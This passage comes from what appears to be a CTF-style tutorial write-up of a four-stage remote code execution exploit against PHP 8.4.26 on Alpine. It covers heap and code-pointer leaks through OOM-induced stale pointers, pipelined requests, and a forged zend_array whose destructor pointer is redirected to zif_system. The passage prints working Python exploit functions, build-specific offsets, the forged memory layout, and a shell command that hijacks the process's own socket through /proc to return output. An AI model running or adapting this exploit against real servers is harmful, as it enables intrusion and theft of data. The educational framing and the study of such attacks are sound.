- First 8 bytes must equal 16. Remember how val[] maps to the array's nNextFreeElement field? In a 16-element array, nNextFreeElement is exactly 16. Checking this proves our misalignment was perfect down to the byte.
- The leaked pointer must match the fingerprint. This is the beautiful part. ASLR randomizes the base address of
libphp.so, but it always shifts the entire binary as one block. That means the low 21 bits of any function's address never change between runs , they're fixed at compile time and baked into the ELF binary.
For the Alpine PHP 8.4.26 build, zval_ptr_dtor always has 0x112930 as its low 21 bits:
DTOR_LOW21 = 0x112930So if the attacker gets a pointer like 0x7f3a12512930, they check: does 0x7f3a12512930 & 0x1FFFFF equal 0x112930? YES! now think about where we are: we are looking inside a zend_array struct right??, we know for a fact it has a pDestructor pointer, and the math perfectly matches the zval_ptr_dtor signature. That means this pointer is practically guaranteed to be the exact function we need.
If the low bits don't match, it means either the cookie contains garbage OR the server is running a different PHP build. Either way, the script knows to stop right here instead of blindly sending a forged payload that will crash the worker.
Parsing the heap leak: finding the chunk base in 256 bytes of chaos
Because 256 bytes of raw heap memory is NOT a clean, labeled structure. It's a mess of overlapping structs, old data, freelist pointers, and random garbage. How do you find a real heap pointer in all that noise?
def parse_heap_leak(cookie: bytes) -> int | None:
if len(cookie) != 256:
return None
candidates = []
for alignment in range(8):
words = (struct.unpack_from("<Q", cookie, pos)[0]
for pos in range(alignment, len(cookie) - 7, 8))
counts = collections.Counter(value & ~CHUNK_MASK for value in words
if HEAP_MIN <= value < HEAP_MAX)
if counts:
base, hits = counts.most_common(1)[0]
candidates.append((hits, alignment, base))
if not candidates:
return None
hits, _alignment, base = max(candidates)
return base if hits >= MIN_POINTER_AGREEMENT else NoneThe idea is simple: scan every possible 8-byte aligned position in the 256-byte blob. For each 8-byte value, check if it looks like a heap pointer (falls in the 0x700000000000 to 0x800000000000 range). Then mask off the low 21 bits (& ~0x1FFFFF) to get the chunk base.
If multiple pointers in the blob all agree on the same chunk base (at least 4 of them MIN_POINTER_AGREEMENT), that's a real leak. Why? there may be random ASCII bytes that accidentally look like valid pointers, But four of them all agreeing on the same aligned base? That's your real heap address.
The 1+8 pipeline: how both leaks are actually delivered
One more thing we need to cover before moving on. We talked about HTTP pipelining earlier as a way to solve the worker roulette problem. But I showed you the concept without showing the actual implementation. In reality, each leak stage sends nine HTTP requests in a single TCP write:
┌────────────────────────────────────────────────────────────────┐
│ TCP Connection (one sendall) │
│ │
│ Request 1: PRODUCER (OOM trigger) ← Connection: keep-alive│
│ Request 2: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 3: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 4: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 5: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 6: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 7: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 8: CONSUMER (leak attempt) ← Connection: keep-alive│
│ Request 9: CONSUMER (leak attempt) ← Connection: close │
│ │
└────────────────────────────────────────────────────────────────┘All nine requests are written to the socket before reading any responses. This is critical. If the attacker waited for the producer's response before sending consumers, there's a window where another user's request could steal the poisoned worker.
Why 8 consumers and not just 1? Simply to maximize our chances of hitting the exact worker that holds the stale pointer. Pipelining pushes all nine requests down one TCP connection, but depending on the server's architecture, there's no hard guarantee every single one lands on the same backend worker.
The producer also carries something weird in its HTTP headers: 1001 empty cookie pairs.
COOKIE_PAIRS = 1001
# In the HTTP header:
Cookie: 00=;01=;02=;03=;04=;05=;...zz=;Why?? Because PHP has to parse every single cookie name and allocate memory for it. These 1001 empty cookies are another form of heap grooming they consume specific bin sizes during header parsing, pushing the allocator's state into a position where the session ID string ends up on the right place. Remember, EVERYTHING is calibration. Even the HTTP headers are part of the exploit.
Three connections, not one
We mentioned this briefly earlier, but because it was fast, it's really easy to get it wrong: the entire exploit is NOT packed into a single mega pipeline or one giant request. The three stages actually use three separate TCP connections:
Connection 1: [heap producer] + [8 heap consumers] → heap chunk base
Connection 2: [code producer] + [8 code consumers] → zval_ptr_dtor
Connection 3: [final callback single request] → RCEWithin a leak stage, the producer and its 8 consumers MUST reach the same worker, But between stages? Completely separate connections. The heap leak, code leak, and final callback can each land on different workers.
"Hold on... if they hit different workers, how do the leaked addresses still work?
The answer comes from how PHP Alpine CLI's multi-worker mode creates its workers: fork(). The master process loads libphp.so, sets up the runtime, and then forks child workers. When fork() happens, every child inherits the exact same virtual memory layout from the parent. That means the code base address is identical across all workers, So a code pointer leaked from one worker works perfectly for any other worker.
The heap is a different story. Each worker allocates its own Zend MM chunks independently after the fork. But the allocation pattern is deterministic enough that the calibration constants (HEAP_CARRIER_DELTA and HEAP_CARRIER_OFFSET) hold across workers. Same binary, same startup sequence, same request shape = same heap layout.
On a noisy production server with hundreds of workers and unpredictable traffic? Those heap offsets would be much less reliable. That's one more reason why this exploit is hard to pull off in the wild but on a quiet CTF target, it works.
Reusing the allocator to forge a structure:
Up until now, the only thing the attacker has done is leak memory and map out the system's layout. But since the attacker can't simply write raw C code directly into PHP's engine, they can't truly force PHP to execute arbitrary commands... well, unless they can overwrite something that the PHP engine blindly trusts and calls.
Hmmm... does this sound familiar? This is exactly where the importance of function pointers comes into play. Make sure you understand the previous sections thoroughly before moving forward, because hijacking those cleanup pointers is how the attacker takes full control.
In this specific attack path, the most effective structure to forge is the zend_array (HashTable).
Why a zend_array?
to answer this try to remember this sentence:
"They can't truly force PHP to execute arbitrary commands... well, unless they can overwrite something the PHP engine blindly trusts and calls." it was not picked randomly...
unlike standard objects that require a separate, vtable structure to hold their function pointers, a zend_array holds its cleanup function pointer (pDestructor) directly inside its own struct.
Thanks to the addresses leaked (defeating ASLR), the attacker knows exactly where the heap is and where the libphp executable functions are located. They can construct fake data that looks perfectly valid to PHP
The idea: overwrite pDestructor
Normally PDestructor points to a safe function like zval_ptr_dtor. But what if we could overwrite that pointer with the address of zif_system instead??
That's the entire idea. We forge a fake zend_array where pDestructor doesn't point to a safe cleanup function anymore. It points to PHP's wrapper for the C system() function. When PHP goes to "clean up" this array, it blindly trusts the pointer, jumps to it, and executes whatever command we put in there.
The forged structure
Conceptually, the memory layout the attacker uploads looks something like this:
// Conceptual illustration of the attacker's payload:
// From the leak stages: ASLR is defeated!
// We leaked libphp_base, so we can calculate the exact address of PHP's system() wrapper
uint64_t zif_system_addr = libphp_base + offset_of_zif_system;
// The attacker's HTTP body lays out bytes exactly matching a _zend_array:
struct ForgedArray {
uint32_t gc_refcount; // Fake reference count to keep it alive
uint32_t type_flags; // Marked as a valid IS_ARRAY
// ... padding and sizing fields ...
// THE HIJACK: We overwrite pDestructor with the address of zif_system!
uint64_t pDestructor; // = zif_system_addr
// Immediately following or referenced by the array is our payload string:
char command[56]; // Payload: "cat /etc/passwd"
};this is a simplified version. In reality the attacker forges three different structures overlapping in the exact same memory space. But we'll get to that in a moment. For now just understand: the attacker builds raw bytes that look like a valid zend_array to PHP, but with pDestructor secretly pointing to zif_system.
But wait... how does PHP even run our pointer?
OK so we have a forged structure with a poisoned pDestructor. But there are two questions we need to answer before any of this works:
Question 1: Won't PHP just construct the array properly and write its own safe pDestructor??
No.we aren't writing normal PHP code that asks the engine to create a clean, safe array.
When you write normal PHP code like $arr = [];, PHP builds the array safely and sets pDestructor to zval_ptr_dtor. But in our attack, we are bypassing the PHP language interpreter entirely. We are sending a raw HTTP request where the body contains our custom crafted byte pattern. PHP's multipart parser takes those raw bytes straight off the wire and dumps them directly into a heap allocation. PHP has no idea that the bytes represent a zend_array.they are copied directly into the heap without any validation.
Question 2: OK the forged table is on the heap. But how does PHP find it??
PHP won't magically stumble upon our fake array on its own. So the attacker needs to do two things:
First, they need to know WHERE the forged table will land. And because they leaked the heap base, the offset to where a specific allocation will end up is deterministic. The attacker can predict: "if I send a field with this exact size at this exact moment in the request, its value will land at address X."
Second, they need to make PHP actually GO to that address during cleanup. So the attacker plants a raw pointer to the forged table inside another field (a "primer") that PHP's cleanup routines will walk through during the OOM teardown. It's basically a trail of breadcrumbs. During the cleanup, PHP reads that pointer from the primer, thinks: "Ah, I need to clean up the array located at this address," follows it, arrives at the forged HashTable, and treats it like legitimate data.
We'll see exactly how this pointer planting works when we get to the real practice section for Stage 4.
In short: PHP isn't constructing anything here. We constructed the raw bytes, placed them at a precise, predictable heap address, and left a trail of breadcrumbs (the primer pointer) leading PHP right into our trap. That's the fundamental idea behind structure forgery: PHP expects valid metadata, but the memory it trusts now contains a trap....
The trigger: PHP does the dirty work Here
We are going to start this part with the ultimate twist we found earlier: the attacker doesn't need to actively trigger the exploit command themselves. PHP does it for them.
So what actually happens when PHP follows those breadcrumbs and reaches our forged HashTable??
At the end of a request, or when an OOM bailout fires, PHP destroys data structures that are no longer needed by walking through pointers it kept, and trying to clean up whatever they point to. If one of those pointers has been planted by the attacker to point at the forged HashTable sitting on the heap... PHP walks right into the trap and tries to destroy it like a normal array.
When PHP goes to destroy a zend_array, it looks at the pDestructor field but never validates it,It doesn't check whether it still points to zval_ptr_dtor. It reads the pointer and just blindly jumps to it.
This is the actual code from zend_hash_destroy() in php-src/Zend/zend_hash.c (hash/mixed array path, which is the path our forged table takes):
Bucket *p = ht->arData;
Bucket *end = p + ht->nNumUsed;
if (ht->pDestructor) {
SET_INCONSISTENT(HT_IS_DESTROYING);
if (HT_HAS_STATIC_KEYS_ONLY(ht)) {
if (HT_IS_WITHOUT_HOLES(ht)) {
do {
ht->pDestructor(&p->val);
} while (++p != end);
}
}
// ... other branches for non-static keys / arrays with holes ...
}PHP follows a variable nNumUsed that contains a number on how many filled buckets there are and then loops over every filled Bucket in arData and calls pDestructor(&p->val) on each element's zval. Now here's the key detail. The Bucket struct (from php-src/Zend/zend_types.h) looks like this:
typedef struct _Bucket {
zval val; // <--- offset 0
zend_ulong h;
zend_string *key;
} Bucket;val is the very first member of Bucket, sitting at offset 0. and it is not a simple variable it can hold a pointer to another structure(our forged hashtable).
Before jumping into the actual exploit code, let's think about what we just described.
we have two problems: we need to overwrite a valid bucket that php will use when checkingnNumUsed to point it to our forged hashtable, zif_system is meant to execute system commands. How do we actually give it a command to execute?
Think about it. PHP has been tricked into calling our function, but we don't control how PHP calls it. We don't get to choose the arguments PHP passes to that function. PHP simply calls it using the data it finds at the expected memory locations.
The real payload: three structures in one
In reality, you can't just pass a raw command string to the engine and expect it to run. The memory layout the attacker uploads forges three different structures overlapping in the exact same memory space:
// Conceptual illustration of the attacker's 384-byte payload:
// 1. The Forged Array (HashTable)
struct ForgedArray {
uint32_t gc_refcount; // Fake reference count to keep it alive
uint32_t type_flags; // Marked as a valid IS_ARRAY
// ...
uint64_t arData; // Points to Address + 0x20 (Right inside this same struct!) <------- this is important
// ...
uint64_t pDestructor; // Overwritten with zif_system_addr
};
// 2. The Fake Call Frame (zend_execute_data) starting at offset 0x20
// Because arData points here, zif_system reads this space as its argument frame
struct FakeExecuteData {
// ... padding ...
uint32_t num_args; // Set to 1
// ...
uint64_t arg1_pointer; // Points to Address + 0x80
uint32_t arg1_type; // Set to IS_STRING (6)
};
// 3. The Fake String (zend_string) starting at offset 0x80
struct FakeString {
uint32_t gc_refcount;
uint64_t length; // Length of the command
char val[]; // Payload: "cat /etc/passwd\0"
};Why go through the trouble of overlapping all these structures? Because modern PHP internal functions are strictly typed.
In PHP 8.4.26, internal API functions like zif_system do not accept simple char* strings. If PHP's cleanup routine blindly passed a raw string into zif_system, the worker process would instantly trigger a segmentation fault and crash. Under the hood, the engine defines zif_system with a very specific signature:
void zif_system(zend_execute_data *execute_data, zval *return_value);As we just saw, the cleanup loop calls ht->pDestructor(&p->val) on the first element, and &p->val == arData. Because pDestructor now points to zif_system, and zif_system expects its first argument to be a zend_execute_data*, the engine blindly interprets whatever arData points to as a call frame.
But there's a catch. pDestructor passes one argument (a zval). zif_system expects two: (zend_execute_data execute_data, zval *return_value). On x86_64, the first argument goes into the RDI register, the second into RSI. So execute_data receives our arData pointer correctly, but return_value gets whatever garbage happened to be sitting in RSI at that moment, not something PHP deliberately provides, It doesn't matter: zif_system calls C system() before it ever touches return_value.
So the cleanup routine quietly transforms into:
// what actually executes (x86_64 calling convention):
// RDI = &p->val = arData = target_address + 0x20 (our fake call frame)
// RSI = uncontrolled (whatever was in the register)
zif_system((zend_execute_data*)(target_address + 0x20), ???);This is where the exact byte alignment becomes the most critical part of the exploit. By pointing arData exactly 0x20 bytes into their own payload, the attacker feeds zif_system a perfectly structured, fake call frame. The function reads the frame, sees num_args is set to 1, follows the arg1_pointer down to offset 0x80, finds the forged zend_string, and flawlessly executes the injected shell command without crashing the engine.
Real practice: delivering the final payload (Stage 4)
Alright so we've explained the theory of forging the pDestructor inside HashTable and where the command sits. But we haven't shown how that forged table actually gets delivered to the right memory address in a real attack and how do we override a bucket. And trust me... this is where the whole thing comes together.
Remember, the attacker now has two addresses from the previous stages:
- Heap chunk base from the 256-byte cookie leak
zval_ptr_dtoraddress from the 16-byte cookie leak
From zval_ptr_dtor, they calculate where zif_system lives (it's always at a fixed offset from zval_ptr_dtor in the same binary):
DTOR_LOW21 = 0x112930
ZIF_SYSTEM_FROM_DTOR = -0x204BC0
zif_system = dtor + ZIF_SYSTEM_FROM_DTORAnd from the heap chunk base, they calculate exactly where the forged table needs to land:
HEAP_CARRIER_DELTA = 0x8400000
HEAP_CARRIER_OFFSET = 0x16D1D8
target = heap_base - HEAP_CARRIER_DELTA + HEAP_CARRIER_OFFSETThese offsets (HEAP_CARRIER_DELTA and HEAP_CARRIER_OFFSET) were measured in a local lab: run the same PHP build, trigger the same sequence, and watch in GDB where the forged hashtable value ends up relative to the leaked chunk base. The relationship is deterministic for a given build and worker count.
The final multipart request
Now let's look at what the actual HTTP request body looks like:
def callback_multipart(heap_base, dtor, command):
target = heap_base - HEAP_CARRIER_DELTA + HEAP_CARRIER_OFFSET
forged = forge_hashtable(target, dtor + ZIF_SYSTEM_FROM_DTOR, command)
bnd = FINAL_BOUNDARY
fields = []
# Step 1: 1000 deeply nested file fields to trigger OOM
for i in range(1000):
name = b"f[" + str(i).encode() + b"]" + b"[x]" * 54
fields.append(mp_field(bnd, name, filename=b""))
# Step 2: Primer — 276 bytes with target address at slot 13
primer = bytearray(b"Q" * 276)
struct.pack_into("<Q", primer, 13 * 8, target)
# Step 3: The critical sequence
fields += [
mp_field(bnd, b"", bytes(primer)), # primer
mp_field(bnd, b"a", b"1"), # spacer
mp_field(bnd, b"hold", forged), # THE FORGED HASHTABLE
mp_field(bnd, b"K" * 128000 + b"[x]", b"1") # OOM trigger
]
return close_multipart(fields, bnd)There's a LOT going on here. Let me break it down piece by piece.
The 1000 nested fields are NOT for leaking anything this time. They're the OOM fuel again, similar to Stage 1. But they use a different nesting depth (54 instead of 57) and they exist to set up the memory landscape before the real payload arrives.
The primer is a 276-byte value stuffed with Q characters (0x51), except at byte offset 104 (slot 13 × 8 bytes), where the target heap address is written as a raw 8-byte little-endian value. During the OOM cleanup, PHP's internal routines walk through various data structures. One of those walks reads a pointer from this exact position. If that pointer points to a valid address on the heap, PHP follows it and tries to destroy whatever is there.
So the primer is basically telling PHP: "Hey, when you clean up after the OOM crash, go look at this specific address." And what's sitting at that address? The forged HashTable.
The hold: which is just our forged payload (the 3 structures we saw earlier with the forged hashtable)
The order of the last four fields is CRITICAL. The "hold" field must be parsed and its value (forged) must be allocated on the heap before the last giant field name (K × 128000 + [x]) triggers the final OOM.
Here's the timeline:
PHP starts parsing the final request
│
▼
1000 nested fields parsed → memory fills up but doesn't OOM yet
│
▼
Primer field parsed → 276 bytes allocated, target pointer planted at slot 13
│
▼
Spacer field "a" parsed → small allocation, fine-tunes frontier
│
▼
"hold" field parsed → 384-byte forged HashTable allocated on the heap ← THIS MUST HAPPEN FIRST
│
▼
Giant field name "KKK...K[x]" parsed → 128,000+ byte field name
PHP tries to allocate nested arrays for all those brackets
│
X OUT OF MEMORY!
│
▼
zend_bailout() → cleanup begins
│
▼
Cleanup follows the primer's pointer at slot 13 → finds the forged HashTable
│
▼
Reads pDestructor = zif_system → calls it with our command
│
▼
BOOM. Shell command executes.The primer mechanism:
we answered most of the question except one: how do we overwrite a bucket?
The primer field has an empty name, meaning PHP never actually inserts it into $_POST. So how can a field that PHP immediately discards end up influencing where the cleanup routine goes?
Consider the following PHP array:
$data = [
"profile" => [
"name" => "Djad",
"age" => 21
]
];in php for a non packed array like this one it puts each key-value pair into a Bucket:
as we saw earlier this is a bucket declaration from Zend/zend_types.h:
typedef struct _Bucket {
zval val;
zend_ulong h;
zend_string *key;
} Bucket;Each Bucket stores three things:
val— the actual value (stored as azvalstruct)h— the hash of the keykey— a pointer to the key string
The val field is a zval, which is the universal value container in PHP. Every PHP value, whether it's an integer, a string, an array, or an object, is wrapped in a zval. It's defined like this in the source code:
// From php-src/Zend/zend_types.h
typedef struct _zval_struct {
zend_value value; /* The actual data (8 bytes) */
union {
uint32_t type_info; /* Tells PHP WHAT type of data `value` holds */
struct {
ZEND_ENDIAN_LOHI_3(
zend_uchar type,
zend_uchar type_flags,
union {
uint16_t extra;
} u)
} v;
} u1;
union {
uint32_t next;
uint32_t cache_slot;
uint32_t opline_num;
uint32_t lineno;
uint32_t num_args;
uint32_t fe_pos;
uint32_t fe_iter_idx;
uint32_t guard;
uint32_t constant_flags;
uint32_t extra;
} u2;
} zval;Now look at the value field. It's of type zend_value, which is a union:
typedef union _zend_value {
zend_long lval;
double dval;
zend_refcounted *counted;
zend_string *str;
zend_array *arr; // <-- a pointer to a nested array
zend_object *obj;
zend_resource *res;
zend_reference *ref;
zend_ast_ref *ast;
zval *zv;
void *ptr;
} zend_value;which is a lot too, and that explains why we have a type but doesn't matter for now. Look at zend_array *arr because that's how PHP handles nested arrays.
The outer array $data = [ ]; stores its entries in buckets, and when a value like "profile" is itself an array, PHP puts a pointer to another zend_array in val.value.arr, and sets type_info to a flag that says "this points to an array." During cleanup, PHP sees that flag and launches a recursive cleaning, following the pointer to destroy the nested structures too.
That's the normal, safe behavior. Now here's how the attacker abuses it.
The primer: freed instantly, but its ghost stays behind
The primer is a 276-byte string filled with Q characters (0x51) and the target heap address of our forged HashTable (the "hold" field). Its field name however is empty ("").
When PHP processes the field, it eventually reaches php_register_variable_ex(). This function checks whether the variable name is empty:
if (*var == '\0') {
zval_ptr_dtor_nogc(val); // free it immediately
return; // never added to any array
}Since the name is empty, PHP destroys the value and returns without inserting it into $_POST.
So far, nothing unusual: the field is discarded, and its string allocation is released. And as we know the 320-byte memory slot goes back to the allocator's freelist.
Since memory is never erased, some bytes may be overwritten by allocator bookkeeping but the rest stays exactly as it is, there waiting.
The slot gets recycled for $_REQUEST's bucket array
When the next field (a=1) is registered to $_REQUEST, it's the first string key inserted into that array, so PHP needs to allocate a bucket storage (arData) for the default table size of 8.
if we want to dig into details the flow goes this way: The array gets created by array_init() with HASH_FLAG_UNINITIALIZED set (flags=0x08). Adding a string key triggers zend_hash_real_init_mixed, which needs to allocate the bucket array (arData).
zend_hash_real_init_mixed has a fast path for the default table size (nTableSize=8). i verified this by disassembling the function at address 0x6c0a60 in the binary and got this:
; zend_hash_real_init_mixed
cmp $0x8,%eax ; is nTableSize == 8?
jne generic_path ; no → generic allocation
call _emalloc_320 ; yes → allocate EXACTLY 320 bytes!
movl $0xfffffff0,0xc(%rbx) ; ht->nTableMask = -16
lea 0x40(%rax),%rdx ; arData = alloc_ptr + 0x40 (skip 64-byte hash index)
mov %rdx,0x10(%rbx) ; ht->arData = alloc_ptr + 64
; fill ONLY the first 64 bytes with 0xFFFFFFFF (hash index entries = "empty")
movups %xmm0,(%rax) ; bytes 0–15
movups %xmm0,0x10(%rax) ; bytes 16–31
movups %xmm0,0x20(%rax) ; bytes 32–47
movups %xmm0,0x30(%rax) ; bytes 48–63
; that's it. The bucket area (bytes 64–319) is NOT touched.here we got three things to notice:
_emalloc_320is a specialized fast allocator for the 320-byte bin. It pulls from the freelist. now remember The primer's slot is on that freelist. So it returns the exact same 320-byte slot the primer occupied.nTableMask = -16, PHP 8.4.26 allocates 16 hash index slots (64 bytes) for 8 buckets (256 bytes). so the total allocation is 320 bytes, fitting exactly into one 320-byte bin slot.- Only the first 64 bytes are initialized (the hash index, filled with 0xFFFFFFFF to mark all slots as empty). The remaining 256 bytes, where the buckets live, are NOT zeroed. Whatever was in those bytes before (the primer's data) is still there.
we can confirm this easily with a GDB trace:
primer_str_addr = 0x7f0475f6abc0 ← primer was here
arData = 0x7f0475f6ac00 ← $_REQUEST's bucket array is here
alloc_base = 0x7f0475f6abc0 ← arData - 64 = start of 320-byte slot
*** CONFIRMED: arData alloc reuses primer's 320-byte slot***bucket[2] falls exactly on the primer's target pointer:
Here's how the 320-byte slot looks with both identities overlaid:
Offset What PHP sees now What was there before (primer)
────── ─────────────────────── ─────────────────────────────
0x00 hash index (64 bytes) zend_string header + Q padding
initialized to 0xFFFFFFFF (overwritten so doesn't matter)
─── bucket array starts ───
0x40 bucket[0]: key="a" val="1" (overwritten by insertion)
0x60 bucket[1]: key="hold" val=384B (overwritten by insertion)
0x80 bucket[2]: ??? NOT WRITTEN val offset 104 = TARGET ADDRESS ← !!!
0x88 bucket[2].type_info = 0x51515151 (four Q bytes)
0xA0 bucket[3..7]: NOT WRITTEN more Q padding (doesn't matter)Only bucket[0] and bucket[1] get overwritten when "a" and "hold" are inserted. bucket[2] through bucket[7] are never touched.
and... keep this in mind this alignment is not a coincidence. The primer's slot 13 and the Q fill byte 0x51 were chosen specifically so that when the primer's memory is reused as arData, the raw bytes line up perfectly with a Bucket struct:
// What PHP THINKS it sees at bucket[2]:
bucket[2].val.value.arr = 0x00007efff7d6d1d8; // target address → our forged HashTable
bucket[2].val.u1.type_info = 0x51515151; // four 'Q' bytes from primer padding
bucket[2].h = 0x5151515151515151; // irrelevant more Q padding
bucket[2].key = 0x5151515151515151; // irrelevant more Q paddingNow look at that type_info value: 0x51515151, in PHP, the type_info field packs the type (bits 0-7) and several flags (bits 8+). Bit 8 is IS_TYPE_REFCOUNTED, which tells PHP "this value points to a refcounted object that needs cleanup." The value 0x51515151 in binary has bit 8 set. So PHP is tricked into believing bucket[2] contains a reference-counted value (like a nested array) that must be followed and destroyed in a recursive way.
OOM-interrupted insertion creates nNumUsed=3 without writing bucket[2]:
so here we answered the question, we just overwrote a bucket. But wait. If only "a" and "hold" were successfully inserted, shouldn't $_REQUEST have nNumUsed = 2? During cleanup, PHP would only iterate over bucket[0] and bucket[1]. It would never reach bucket[2].
So how does bucket[2] end up being walked?
Before answering that, we should ask ourselves another question: Why is there another OOM at the very end of the exploit?
Remember, the OOM we triggered earlier was important because it allowed us to leave a stale pointer behind. Here the underlying idea is closely related:
After "a" and "hold" are inserted, the giant field name (K × 128000 + [x]) arrives. PHP tries to add it to $_REQUEST.
Inside zend_hash_str_update(), the new entry path performs the following operations:
; "add new entry" path in zend_hash_str_update
mov 0x18(%r15),%ecx ; ecx = nNumUsed (currently 2)
addl $0x1,0x1c(%r15) ; nNumOfElements++ → 3
mov %eax,0x18(%r15) ; nNumUsed = 3 ← WRITTEN TO MEMORY
call _emalloc ; allocate the key string ← OOM FIRES HERE!
; ... code to write bucket[2] data is BELOW this point — never reachedLook closely at the order of operations.
PHP increments nNumOfElements and updates nNumUsed to 3 before attempting to allocate memory for the new key string.
Then _emalloc() fails because the requested allocation triggers an out-of-memory condition.
The code that would normally initialize bucket[2] is never executed.
But the important part is that the earlier metadata updates have already happened. The HashTable now reports nNumUsed = 3, even though the third bucket was never successfully initialized.
And that is exactly what we need.
When cleanup eventually iterates over the HashTable, it uses nNumUsed to determine how many bucket positions to walk. Since the value is now 3, cleanup can reach bucket[2] as well.
PHP follows the trail
During OOM cleanup, zend_array_destroy reads nNumUsed=3 and starts cleaning the buckets one after another:
- bucket[0] ("a" = "1"): type=IS_STRING → freed normally. Safe.
- bucket[1] ("hold" = 384 bytes): type=IS_STRING → freed normally. Safe. But its value is still there in memory
- bucket[2] (primer): it finds this:
bucket[2].val.value.arr = 0x00007efff7d6d1d8; // the target address from the primer
bucket[2].val.u1.type_info = 0x51515151; // four 'Q' bytes from primer paddingPHP checks the type_info to figure out how to clean up this bucket. looks at the hex value 0x51515151 and finds out that this value points to a refcounted object, it needs to follow the pointer and destroy the whole chain.
So PHP reads val.value.arr = 0x00007efff7d6d1d8 our target address(the forged hashtable) and follows the pointer, believing it leads to a legitimate nested structure.
What PHP finds at the target address
At the target address sits our forged HashTable (the "hold" field's content). The forged structure has its gc.type set to IS_ARRAY, so PHP treats it as a zend_array and calls zend_array_destroy on it.
And how do you free an array? You call whatever pDestructor points to at offset 0x30 of the struct. But we wrote zif_system there,PHP reads it, jumps to zif_system and executes whatever command we embedded in the forged bucket data.
primer freed → slot recycled for arData → bucket[2] = primer ghost
→ OOM leaves nNumUsed=3 but bucket[2] never written
→ cleanup reads bucket[2].type_info = 0x51515151 (IS_TYPE_REFCOUNTED)
→ follows bucket[2].val.value.arr → forged HashTable
→ gc.type = IS_ARRAY → zend_array_destroy
→ pDestructor at offset 0x30 = zif_system → system(command) → RCEok the command is running.. how does its output get back to us?
Think about it. The command is being executed inside a cleanup callback. PHP isn't in the middle of building an HTTP response. It's in the middle of tearing down a failed request. There's no output buffer connected to the client. If we just ran cat /etc/passwd, the output would vanish into the server's stdout (maybe a log file, maybe /dev/null).
So how does the attacker get the output? they find their own TCP socket inside /proc and redirect the output there.
def build_command(nonce):
command = (
# Step 1: Find the established connection's inode from /proc/net/tcp
"i=$(awk '$4==\"01\"{print $10;exit}' /proc/net/tcp*);"
# Step 2: Find which file descriptor maps to that socket
"f=5;for x in /proc/self/fd/*;do "
"[ \"$(readlink \"$x\")\" = \"socket:[$i]\" ]&&f=${x##*/};done;"
# Step 3: Redirect everything to that file descriptor
f'eval "{{ echo {nonce};id;sha256sum \\"$(which print-flag)\\";'
'print-flag;}>&$f 2>&$f"'
).encode("ascii")
return commandthis is genuinely beautiful:
Step 1: /proc/net/tcp (and /proc/net/tcp6) lists every TCP connection the process has. Column 4 is the connection state: 01 means ESTABLISHED. The attacker's command grabs the inode number (column 10) of the first established connection. On a PHP worker that's currently handling this HTTP request, that established connection IS the attacker's TCP socket.
Step 2: The command then loops through /proc/self/fd/, a directory where Linux exposes every open file descriptor of the current process as a symlink. Each symlink's target tells you what it points to: a file, a pipe, or a socket (shown as socket:[inode]). The loop finds which file descriptor number points to the socket with the inode from step 1.
Step 3: Now the attacker knows the file descriptor number. They redirect their command's stdout and stderr to it using shell redirection (>&$f 2>&$f). The output flows directly into the TCP socket, which means it shows up in the HTTP response body that the attacker's client is reading.
The command also includes a nonce , a random hex string generated microseconds before the request is sent:
nonce = secrets.token_hex(8) # e.g., "a1b2c3d4e5f60718"Why a nonce? Because the attacker needs to prove the response is fresh. If the response contains a random string that was chosen right before the request, it proves that the command actually executed on this run and isn't cached or replayed. The id command and the sha256sum of the print-flag binary serve the same purpose: they're execution evidence that only a live shell could produce.
The full four-stage pipeline
Now that we've seen all four stages, here's the complete attack flow from start to finish:
┌─────────────────────────────────────────────────────┐
│ PREFLIGHT │
│ Simple GET request → verify PHP 8.4.26 is running │
└──────────────────────────┬──────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────┐
│ STAGES 1-2: HEAP LEAK │
│ 1 OOM producer + 8 pipelined consumers │
│ → one consumer comes back with 256-byte cookie │
│ → parse it → extract Zend heap chunk base │
└──────────────────────────┬──────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────┐
│ STAGE 3: CODE LEAK │
│ 1 OOM producer + 8 pipelined consumers │
│ → one consumer comes back with 16-byte cookie │
│ → verify fingerprint → extract zval_ptr_dtor │
└──────────────────────────┬──────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────┐
│ STAGE 4: CALLBACK │
│ Calculate target address from heap base │
│ Calculate zif_system from zval_ptr_dtor │
│ Build 384-byte forged HashTable │
│ Send final multipart request │
│ → PHP's cleanup calls zif_system(our_command) │
│ → command redirects output to TCP socket │
│ → attacker reads flag from response body │
└─────────────────────────────────────────────────────┘Every stage depends on the previous one. If the heap leak fails, we can't calculate the target address. If the code leak fails, we can't find zif_system. If either address is wrong, the final stage crashes the worker instead of executing the command. That's why the exploit code calls this whole thing "one bounded attempt." It either works end-to-end or it doesn't. There's no partial success.
How Do You Find These Numbers for a Different Build?
Everything I just showed you: the 51 fields, the repeated key, the sizes all of it is calibrated for one specific build: PHP 8.4.26 Alpine CLI. A different PHP version, a different Linux distro, even a different compile time optimization flag could change which page the stale pointer ends up on, which would change everything.
So what do we do?? We run the specific PHP build in a Docker image and run it with GDB. And then we analyze the full state of the heap: where exactly the stale pointer gets allocated, which page it's on, which slot in which bin. From there, you work backward: how many pages need to be consumed to reach that spot, and what combination of fields and sizes produces that many pages.
Every single number comes from the heap layout of that specific build. Nothing is magic, nothing is random.
People with heavy cybersecurity AI agents (with less restrictions) can automate finding those calibrations with the right tooling. But if you're a broke cybersecurity student like me?? Well.... you gotta spend a huge amount of nights studying the memory inside a lab like me..... until you eventually lose your mind and fail exactly like me too....
Some useful tools for heap analysis if you want to dig deeper(good luck....):
- Docker (php:8.4.26-alpine) isolated, reproducible target environment. Same image = same heap layout every time
- gdbserver inside the container + GDB on the host, remote debugging with full control. Set breakpoints at zend_mm_alloc, zend_mm_free, php_session_save_current_state, and watch every allocation live
- Ghidra Debugger: connects via GDB remote to inspect memory, disassembly, and data structures visually. Way easier than staring at raw hex in a terminal
- GDB batch scripts: automated memory dumps at key breakpoints.
- pwndbg or GEF: GDB extensions with built-in heap visualization commands
- Custom Python scripts: to parse the raw dumps, diff between steps
Is it truly that easy? The Real-World Friction:
If you read through the previous sections, you might think that breaking into a PHP server is as simple as sending three or four well crafted HTTP requests in a row. It sounds clean, deterministic, and almost guaranteed.
